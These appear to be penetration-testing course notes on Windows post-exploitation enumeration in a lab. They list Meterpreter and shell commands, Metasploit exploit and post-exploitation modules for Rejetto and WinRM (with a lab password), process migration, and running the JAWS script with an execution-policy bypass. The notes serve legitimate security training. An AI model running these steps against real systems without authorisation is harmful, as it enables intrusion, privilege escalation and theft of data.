 # 2 - Windows Local Enumeration

## <mark style="color:red;">Enumerating System Information</mark>

* After gaining initial access to a target system, it is always important to learn more about the system like, what OS is running as well as the OS version. This information is very useful as it gives us an idea of what we can do and what type of exploits we can run.
* What are we looking for?
  * Host-name.
  * OS Name (Windows 7, 8, etc).
  * OS Build & Service Pack (Windows 7 SP1 7600).
  * OS Architecture (x64/x86).
  * Installed Updates/Hot-fixes.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we used the Rejetto vuln to gain initial access (search rejetto, use 0).

meterpreter > getuid # Return username.
meterpreter > sysinfo #Return system info like hostname, architecture etc.
meterpreter > show_mount # displays mounted drives.

shell > hostname # Return hostname.
shell > systeminfo # Return every OS info like build number, service pack, hotfixes etc.
shell > wmic qfe get Caption,Description,HotFixID,InstalledOn # Return in-depth info about hotfixes and installation dates.We are more concerned with "Security Updates".
shell > cat C:\\Windows/System32/eula.txt # Provide other system info (Might not be in every Windows system).
```
{% endcode %}



## <mark style="color:red;">Enumerating Users & Groups</mark>

* After gaining initial access to a target system, it is always important to learn more about the system like, what user account you have access to and other user accounts on the system.
* What are we looking for?
  * Current user & privileges
  * Additional user information
  * Other users on the system
  * Groups
  * Members of the built-in administrator group

**Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we use the rejetto vuln to gain initial access.

meterpreter > getuid # Return username.
meterpreter > getprivs # Return current user privileges.

msf5 > use post/windows/gather/enum_logged_on_users # Return currently and recently logged on users.

shell > whoami # Return hostname and current user.
shell > whoami /priv #Return current privileges.
shell > query user # Return currently logged on users.
shell > net users # Return users accounts created on the system.
shell > net user <userAccount> # Return additional info about a particular user.
shell > net localgroup # Enumerate every localgroup on the system
shell > net localgroup <group> # Enumerate every member part of a localgroup
```
{% endcode %}



## <mark style="color:red;">Enumerating Network Information</mark>

* What are we looking for?
  * Current IP address & network adapter
  * Internal networks
  * TCP/UDP services running and their respective ports
  * Other hosts on the network
  * Routing table
  * Windows Firewall state

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# exploit rejetto to gain initial access.

shell > ipconfig #Enumerate IP and adapters info.
shell > ipconfig /all #Enumerate in-depth IP and adapters info.
shell > route print #Display the routing table
shell > arp -a #Display the arp table (every other devices connected on the network)
shell > netstat -ano #Return running services and their corresponding ports
shell > netsh firewall show state #Display firewall state (Might want to use "netsh advfirewall show")
shell > netsh advfirewall show # a more recent cmd. check if FW is enabled or disabled.
```
{% endcode %}



## <mark style="color:red;">Enumerating Processes & Services</mark>

* After gaining initial access to a target system, it is always important to learn more about the system like, what processes, services and scheduled tasks are currently running.
* What are we looking for?
  * Running processes & services
  * Scheduled tasks
* A process is an instance of a running executable (.exe) or program.
* A service is a process which runs in the background and does not interact with the desktop.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# Rejetto for initial access.

meterpreter > ps # List the running processes.
meterpreter > pgrep <processName> # Return the PID of the process asked.
meterpreter > migrate <PID> #Migrate to another process

shell > net start # List started services.
shell > wmic service list brief #List in-depth services
shell > tasklist /svc #List running processes and their correspondant services
shell > schtasks /query /fo LIST /v # List scheduled tasks ( /v for additional info)
```
{% endcode %}





## <mark style="color:red;">Automating Windows Local Enumeration</mark>

* In addition to performing local enumeration manually, we can also automate the process with the help of a few scripts and MSF modules.
* While local enumeration techniques/commands are important to know, as a penetration tester, you will need to be time efficient. As a result, you will need to learn how to utilize various automated enumeration scripts.
* In addition to automating the process of enumerating information like system information, users & groups etc, these automated enumeration scripts will also provide you with additional information regarding the target system like; privilege escalation vulnerabilities, locally stored passwords, etc.

### **Windows Local Enum Scripts**

* **JAWS** - Just Another Windows (Enum) Script - JAWS is PowerShell script designed to help penetration testers (and CTFers) quickly identify potential privilege escalation vectors on Windows systems. It is written using PowerShell 2.0 so ‘should’ run on every Windows version since Windows 7.

→ GitHub Repo: [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we used Metasploit module (eploit/windows/winrm/winrm_scrips_exec) to gain initial access. [set RHOSTS, USERNAME-administrator, PASSWORD-tinkerbell, FALSE_VBS-true). we get a 

meterpreter > show_mount #Display drives on the target system

# some post exploitation modules.
msf5 > use post/windows/gather/win_privs #Perform privileges enumeration
msf5 > use post/windows/gather/enum_logged_on_users #Enumerate current and recently logged on users
msf5 > use post/windows/gather/checkvm #Check if the target system is running in a VM
msf5 > use post/windows/gather/enum_applications #Enumerate every application installed on the target system

# other post exploitation modules.
msf5 > use post/windows/gather/enum_computers #Enumerate computers in the primary domain.
msf5 > use post/windows/gather/enum_patches #Enumerate patches installed on the target system
msf5 > use post/windows/gather/enum_shares #Enumerate shares.


#To use JAWS, upload the script onto the target system, open a shell and navigated to it's directory.
shell > powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt # Execute the JAWS scripts and output the results into a .txt file.
```
{% endcode %}

### Exploiting WinRM

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p 5985 10.2.21.181 # nmap scan for winRM.

msfconsole
use exploit/windows/winrm/winrm_script_exec
set RHOSTS, USERNAME, PASSWORD, set FORCE_VBS true.

# post exploitation modules
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
```
{% endcode %}

### Using JAWS powershell script for automatic enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# goto the github repo https://github.com/411Hall/JAWS
# paste the raw content into the lab environment.
# create a .ps1 file and paste the content of the code, then upload to the Temp folder of the victim.

# spawn a cmd prompt shell session.
# bypass powershell execution policy.
powershell.exe -ExecutionPolicy Bypass -File .\jaws.ps1 -OutputFilename jaws.txt

# after enumeration, go back to the meterpreter session and download.
download jaws.txt
```
{% endcode %}

### <mark style="color:red;background-color:yellow;">Copy and Paste in to and from the Lab Environment</mark>

`ctrl + shift + alt` - once you can view your copied content, then you can paste  it in the Lab environment.

